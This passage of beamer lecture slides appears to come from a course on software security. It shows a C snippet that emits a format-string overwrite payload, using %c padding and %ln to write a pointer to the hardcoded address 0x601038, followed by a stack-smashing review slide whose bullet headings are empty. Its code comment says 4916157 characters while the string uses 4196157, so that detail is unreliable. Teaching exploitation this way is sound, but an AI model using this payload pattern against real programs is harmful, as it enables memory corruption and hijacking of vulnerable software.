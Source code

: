 \begin{frame}[fragile,label=formatExample]{format string overwrite: setup}
\lstset{
    language=C,
    style=smaller,
}
\begin{lstlisting}
    /* advance through 5 registers, then
     * 5 * 8 = 40 bytes down stack, outputting
     * 4916157 + 9 characters before using 
     * %ln to store a long.
     */
    fputs("%c%c%c%c%c%c%c%c%c%.4196157u%ln", stdout);
    /* include 5 bytes of padding to make current location
     * in buffer match where on the stack printf will be reading.
     */
    fputs("?????", stdout);
    void *ptr = (void*) 0x601038;
    /* write pointer value, which will include \0s */
    fwrite(&ptr, 1, sizeof(ptr), stdout);
    fputs("\n", stdout);
\end{lstlisting}
\end{frame}

\section{Stack Smashing Review}
\begin{frame}<1>[label=trickySS]{stack smashing: the tricky parts}
    \begin{itemize}
    \item {}
        \begin{itemize}
        \item same tricks as writing relocatable virus code
        \item usual idea: just execute shell (command prompt)
        \end{itemize}
    \item {}
        \begin{itemize}
        \item machine code usually flexible enough
        \end{itemize}
    \item {}
        \begin{itemize}
        \item fixed offset from buffer
        \end{itemize}
    \item {}
    \end{itemize}
\end{frame}

